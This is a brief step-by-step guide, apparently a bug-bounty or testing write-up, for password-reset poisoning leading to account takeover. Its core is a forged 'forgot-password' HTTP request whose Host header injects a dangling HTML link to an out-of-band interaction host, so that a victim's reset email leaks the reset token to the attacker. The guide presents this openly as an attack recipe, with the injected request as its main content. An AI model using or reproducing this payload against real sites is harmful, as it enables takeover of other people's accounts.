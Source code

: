 ************Step 1************

Click on Forgot Password and enter your email address.

************Step 2************

Intercept the request and send the following:

```
POST /forgot-password HTTP/1.1
Host: website.com:'<a href="//cequbc3c37pqfuf9hvg4n5hyy73afdnb.oast.me/?

email=shelled@gmail.com
```

************Step 3************

Open your email client and click on reset password link. If you receive a ping back from interactsh-client with password reset token, then it’s an account takeover.
